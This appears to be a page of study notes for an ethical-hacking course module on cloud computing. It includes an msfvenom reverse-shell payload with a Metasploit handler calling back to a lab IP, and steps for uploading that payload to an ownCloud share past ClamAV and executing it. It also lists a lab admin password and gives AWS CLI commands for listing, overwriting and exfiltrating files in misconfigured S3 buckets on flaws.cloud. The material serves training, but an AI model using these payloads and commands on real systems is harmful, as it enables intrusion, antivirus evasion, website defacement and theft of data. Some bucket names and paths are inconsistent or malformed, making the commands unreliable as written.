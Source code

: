 # 19 - Cloud Computing

## **Module 19 - Cloud Computing**

<details>

<summary>EMPTY</summary>



</details>



## Owncloud&#x20;

* Hosted at ubuntu machine http://10.10.10.9/owncloud. admin:qwerty@123
* Create users and share files to users.
* Install Desktop client and share and view files

Bypassing ClamAV

Cloud is currently protected by ClamAV so no malicious file is uploaded.

* `msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.10.10.11 LPORT=4444 --platform linux -f elf > /root/Desktop/exploit.elf` generate a linux based executable&#x20;
* Type `use multi/handler`
* Type `set payload linux/x86/shell/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Type `set LPORT 4444`
* Type `run`
* Upload payload in shared folder.
* Download using admin, Set permission to `chmod -R 755 exploit.elf`
* Execute exploit `./exploit.elf`

## S3 Buckets Enumeration

**S3 Buckets** are open cloud storage containers designed for storing items within the Simple Storage Service (S3). These S3 containers can be associated with directories and the storage of objects. Each item kept within these containers comprises three primary elements: the item's content (data), its metadata (encompassing details such as size, name, last modification date, and URL), and a distinct identifier for the item. Numerous websites utilize S3 containers for cloud-based file storage. **S3 bucket enumeration** refers to the procedure of discovering these S3 containers and subsequently cataloging the objects contained within them.

### Lazys3

{% embed url="https://github.com/nahamsec/lazys3" %}

**Lazys3** is a ruby script that allows to search for public S3 buckets.

* `ruby lazys3.rb` -> run it to enumerate buckets

### Cloud\_enum

{% embed url="https://www.kali.org/tools/cloud-enum/" %}

**Cloud\_enum** is a python script (prebuilt in Kali), that allows to search for public S3 buckets and also list their contents.

* Use the cloud\_enum tool to find and list down the contents of the buckets:

`cloud_enum -k flaws.cloud --disable-azure --disable-gcp`

### S3BucketList

{% embed url="https://github.com/AlecBlance/S3BucketList" %}

S3BucketList is a browser extension to enumerate S3 Buckets

## Exploiting S3 Unauthenticated

**Amazon S3 bucket** is a user-friendly object repository, that is used for storing and recovering various data from anywhere on the web. Misconfigurations in S3 result in exposing private data or even complete compromise of websites in some cases

A potential misconfiguration can allow write/ delete access instead of read-only access. A private bucket that should have been configured to allow only authenticated access may have been misconfigured to allow public unauthenticated access

### AWS CLI

We can use Cloud enum tool to find and list down the contents of the buckets:

`cloud_enum -k flaws.cloud --disable-azure --disable-gcp`

and AWS CLI tool to find the contents of a bucket that allows unauthenticated access can be listed down with the following command

`aws s3 ls s3://flaw.cloud/ --no-sign-request`

If the AWS bucket allows write access, we can upload a file to AWS and can also overwrite the existing files which may result in the defacement of a public website

`aws s3 cp ./index.html s3://flaws.cloud --no-sign-request`

## Exploiting S3 Authenticated

A private bucket that should have been configured to allow only authenticated access for specific users may have been misconfigured to allow authenticated access from anyone

* Install S3 Bucket using AWS IAM (with user with programmatic access)
* Install awscli
* Configure the profile on aws cli with the keys from the account: `aws configure --profile new_profile`
* List the content of the S3 bucket with your profile: `aws s3 --profile ammar ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud`
* Download the secret file `aws s3 --profile new_profile cp s3:/level2.c1g315dcds4a4a3sd4as41d2152.flaws.cloud/secret-e3453fc.html .`
